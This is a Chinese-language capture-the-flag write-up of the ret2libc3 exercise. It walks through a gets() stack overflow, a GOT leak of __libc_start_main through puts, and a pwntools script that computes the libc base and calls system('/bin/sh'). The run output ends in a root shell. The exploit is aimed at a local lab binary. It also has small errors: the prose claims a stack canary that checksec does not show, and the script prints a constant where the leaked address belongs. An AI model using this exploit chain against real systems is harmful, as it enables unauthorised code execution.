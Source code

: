 # ret2libc

## 保护等级

首先检查保护等级：

```bash
$ checksec ret2libc3
[*] '/mnt/d/program/ctf/ctf-wiki/ret2libc3/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看到这是一个开启了部分只读和栈溢出保护的程序。

## 程序逻辑

在 `Ida Pro` 中打开即可看到 `main` 函数的伪代码：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-64h]

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets(&s);
  return 0;
}
```

可见这是一个相当明显的栈溢出。`0x64` 个字节就能覆盖到原 `EBP`、`0x68` 就能覆盖到返回地址。

## 利用

查找字符串和 `system` 函数之后发现都没找到。那么我们如何得到 system 函数的地址呢？

- `system` 函数属于 `libc`，而 `libc.so` 动态链接库中的函数之间相对偏移是固定的。

- 所以如果我们知道 `libc` 中某个函数的地址，那么我们就可以确定该程序利用的 `libc`。进而我们就可以知道 `system` 函数的地址。

那么如何得到 `libc` 中的某个函数的地址呢？

- 我们一般常用的方法是采用 got 表泄露，即输出某个函数对应的 got 表项的内容。
- 当然，由于 `libc` 的延迟绑定机制，我们需要泄漏已经执行过的函数的地址，通常选取的函数是 `__libc_start_main`，这是因为它是程序最初被执行的地方。

*PostScript*: 关于 `PLT` 表与 `GOT` 表的关系可以参考 [LIEF](<https://lief.quarkslab.com/doc/stable/tutorials/05_elf_infect_plt_got.html>)

### `leak_libc_main`

我们将控制 `main` 函数溢出后，其栈帧形成下面的形式：

```
                   +----------------+                                   
                   |                |                                   
              0x64 | local variable |-----> 'A'*0x64                    
                   |                |                                   
                   +----------------+                                   
               0x4 | previous $ebp  |-----> 'A'* 0x4                    
                   +----------------+                                   
               0x4 | return address |-----> "puts" address              
                   +----------------+                                   
                                    ------> "main" address              
                                                                        
                                    ------> .got.plt:"__start_libc_main"
```

实际上执行的是这样一个函数 `puts("__start_libc_main")`。

### `get_shell`

因为上面的的栈帧控制，我们可以再执行一次 `main` 函数，经过之前的泄露我们可以得到 `libc` 的加载基地址，因此可以得到 `system` 的地址，从而可以执行系统调用拿到 `shell`：

```
                   +----------------+                        
                   |                |                        
              0x64 | local variable ------> 'A'*0x64         
                   |                |                        
                   +----------------+                        
               0x4 | previous $ebp  ------> 'A'* 0x4         
                   +----------------+                        
               0x4 | return address ------> "system" address 
                   +----------------+                        
                                    ------> 'A'* 0x4         
                                                             
                                    ------> "/bin/sh" address
```

实际上执行的是这样一个函数 `system("/bin/sh")`。

### 脚本

```python
#!/usr/bin/env python2
# coding=utf-8
from pwn import *


class Challenge:
    libc_main_addr = 0x1AA50
    libc_system_addr = 0x3E9E0
    libc_binsh_addr = 0x17EAAA

    def __init__(self):
        self.p = process(["./ret2libc3"])
        self.elf = ELF("./ret2libc3")

    def leak_libc_main(self):
        puts_addr = self.elf.plt["puts"]
        libc_main_addr = self.elf.got["__libc_start_main"]
        main_symbol = self.elf.symbols["main"]
        # todo 我也不知道为什么是 0x70 的偏移，按反汇编结果应该是 0x68 才对。栈结构：
        #       _puts 地址(第一次 main 返回地址)==>_puts 返回地址(第二次 main 地址)==>_puts 参数(got["libc_main"])
        payload = flat(['A' * (0x6c + 0x4), puts_addr, main_symbol, libc_main_addr])
        self.p.recvuntil("Can you find it !?")
        self.p.sendline(payload)
        self.leak_main_addr = u32(self.p.recv()[:4])
        print("__libc_start_main: %s" % hex(self.libc_main_addr))

    def get_libc_offset(self):
        self.libc_base = self.leak_main_addr - self.libc_main_addr
        print("libc offset: %s" % hex(self.libc_base))

    def get_shell(self):
        system_addr = self.libc_base + self.libc_system_addr
        bin_sh_addr = self.libc_base + self.libc_binsh_addr
        payload = flat(["A" * (0x64 + 0x4), system_addr, "A" * 0x4, bin_sh_addr])
        self.p.sendline(payload)
        self.p.interactive()

    def pwn(self):
        self.leak_libc_main()
        self.get_libc_offset()
        self.get_shell()
        self.p.wait_for_close()


if __name__ == "__main__":
    c = Challenge()
    c.pwn()
```

执行结果：

```bash
$ python exp.py 
[+] Starting local process './ret2libc3': pid 6456
[*] '/tmp/pycharm_project_477/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
__libc_start_main: 0x1aa50
libc offset: 0xf7d55000
[*] Switching to interactive mode
$ whoami
root
```

